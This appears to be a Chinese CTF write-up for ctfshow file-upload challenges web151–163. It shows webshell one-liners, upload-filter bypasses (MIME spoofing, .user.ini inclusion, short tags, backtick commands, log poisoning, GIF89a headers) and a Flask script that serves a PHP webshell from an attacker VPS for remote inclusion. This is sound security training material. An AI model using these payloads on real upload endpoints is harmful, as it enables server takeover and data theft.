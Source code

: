 ## 写在前面

开始文件上传系列，新的起点，加油！

——KonDream 2022年1月14日13:46:41

## web151(前端校验)

![image-20220114134736282](image/ctfshow-文件上传(151-170)/image-20220114134736282.png)

前端校验，直接禁用js后上传一句话，或者上传png然后抓包改后缀

## web152(MIME校验)

> hint：后端不能单一校验

前端+后端校验，这里是将一句话木马改为png后上传，再改后缀，经测试后端是MIME类型校验，改为png的image/png即可绕过

![image-20220114135421176](image/ctfshow-文件上传(151-170)/image-20220114135421176.png)

## web153(.user.ini)

这个题过滤了后缀php，一开始想着用php3，phtml等绕过，发现不能执行命令，然后访问upload时出现了不一样

![image-20220114142337227](image/ctfshow-文件上传(151-170)/image-20220114142337227.png)

nothing here？说明此处有个php页面，那么这个题考察的就是.user.ini的利用了

> 自 PHP 5.3.0 起，PHP 支持基于每个目录的 INI 文件配置。此类文件 仅被 CGI／FastCGI SAPI 处理。此功能使得 PECL 的 htscanner 扩展作废。如果你的 PHP 以模块化运行在 Apache 里，则用 .htaccess 文件有同样效果。

> 除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web 根目录（$_SERVER['DOCUMENT_ROOT'] 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。

> 在 .user.ini 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI 设置可被识别。

可以用的配置是auto_append_file和auto_prepend_file，前者在每个php文件尾加个include，后者在文件头加个include

**而且.user.ini只对同级目录下的文件起作用，同级目录下必须有个php文件才可以，这就是这个题的突破口。**

![image-20220114142942340](image/ctfshow-文件上传(151-170)/image-20220114142942340.png)

首先上传个.user.ini，在index.php中include进去k.png，然后上传带一句话的png

![image-20220114143121987](image/ctfshow-文件上传(151-170)/image-20220114143121987.png)

然后就是getshell后找flag了

![image-20220114143254131](image/ctfshow-文件上传(151-170)/image-20220114143254131.png)

## web154(短标签)

应该是对上传内容进行了过滤，不允许有php出现，那么就使用php短标签：<?= 代替 <?php

![image-20220114144039737](image/ctfshow-文件上传(151-170)/image-20220114144039737.png)

先传个带一句话的png，然后传.user.ini方法同上，最后拿shell找flag

## web155(短标签)

同上

## web156($_POST{1})

经测试，在上面的基础上过滤了文件内容中的 ] ，采用大括号进行绕过：``<?=eval($_POST{1});?>``

![image-20220114145000175](image/ctfshow-文件上传(151-170)/image-20220114145000175.png)

剩下操作同上

## web157(不写马，命令执行)

有点难搞，过滤了 { 和 ； 想要写马进去有点绕，所以就直接命令执行吧：``<?=system('tac ../flag.*')?>``

![image-20220114145952646](image/ctfshow-文件上传(151-170)/image-20220114145952646.png)

## web158(同上)

同上

## web159(同上)

过滤了（ 用反引号绕过：``<?=`tac ../flag.*`?>``

## web160(日志包含)

在上面的基础上过滤了反引号，系统命令不能用了，考虑日志包含

``<?=include"/var/lo"."g/nginx/access.lo"."g"?>``

![image-20220117175904340](image/ctfshow-文件上传(151-170)/image-20220117175904340.png)

然后在UA中插入一句话

![image-20220117180133199](image/ctfshow-文件上传(151-170)/image-20220117180133199.png)

最后getshell

![image-20220117180151043](image/ctfshow-文件上传(151-170)/image-20220117180151043.png)

## web161(GIF89a)

小知识点：GIF89a文件头欺骗，php下的检测函数getimagesize无法认定其图片无效

```php
//检查是否图片
    if(function_exists('getimagesize')) {
        $tmp_imagesize = @getimagesize($new_name);
        list($tmp_width, $tmp_height, $tmp_type) = (array)$tmp_imagesize;
        $tmp_size = $tmp_width * $tmp_height;
        if($tmp_size > 16777216 || $tmp_size < 4 || empty($tmp_type) || strpos($tmp_imagesize['mime'], 'flash') > 0) {
            @unlink($new_name);
            return cplang('only_allows_upload_file_types');
        }
    }
```

如果使用这个函数读取文件头为GIF89a的图片，php会认定这只是一个尺寸比较大的合法图片，所以存在检测漏洞

回到这个题，上传的时候加上GIF89a头就可以了

![image-20220117181330308](image/ctfshow-文件上传(151-170)/image-20220117181330308.png)

## web162(远程包含)

这个题过滤了文件内容中的. 也就是说上传的.user.ini是不能包含带后缀的文件的，在原wp中是要通过条件竞争的方式去解，思路是上传的速度要比服务器删除的速度快，所以采用竞争，但是因为最近群主大大限制了并发，条件竞争并不能做了，所以采用远程文件包含的方式

1. 拥有一台vps，并用flask将php一句话绑定在80端口上

   ```python
   '''
   Author: KonDream
   Date: 2022-01-03 22:45:59
   LastEditors:  KonDream
   LastEditTime: 2022-01-05 13:10:08
   Description:  
   '''
   from flask import *
   
   app = Flask(__name__)
   
   # 首页路由
   @app.route('/',methods=['GET', 'POST'])
   def index():
       return "<?php eval($_POST[1]);?>"
   
   if __name__ == "__main__":
       app.run(host='0.0.0.0', port=80, debug=True)
   ```

2. 上传.user.ini，绑定一个不带后缀的文件k![image-20220117193202242](image/ctfshow-文件上传(151-170)/image-20220117193202242.png)

3. 上传k，并包含远程vps地址，由于过滤了ip中的. 所以要将ip地址转数字，这里转：http://www.msxindl.com/tools/ip/ip_num.asp![image-20220117193804385](image/ctfshow-文件上传(151-170)/image-20220117193804385.png)

4. 最后访问upload，即可getshell![image-20220117193859464](image/ctfshow-文件上传(151-170)/image-20220117193859464.png)

## web163(配置文件包含)

思路同上，但是上传的文件会被服务器立刻删掉，原预期解是通过竞争的方式，但是现在不行，所以就包含在配置文件里![image-20220117194817052](image/ctfshow-文件上传(151-170)/image-20220117194817052.png)![image-20220117194835364](image/ctfshow-文件上传(151-170)/image-20220117194835364.png)

值得注意的是这个题文件不会覆盖，所以只能包含一次，如果写错文件那么就要重开环境了hhh，而且162和163这种做法都要求服务器支持远程文件包含，如果服务器没开启这个选项的话那么就没办法这样做了
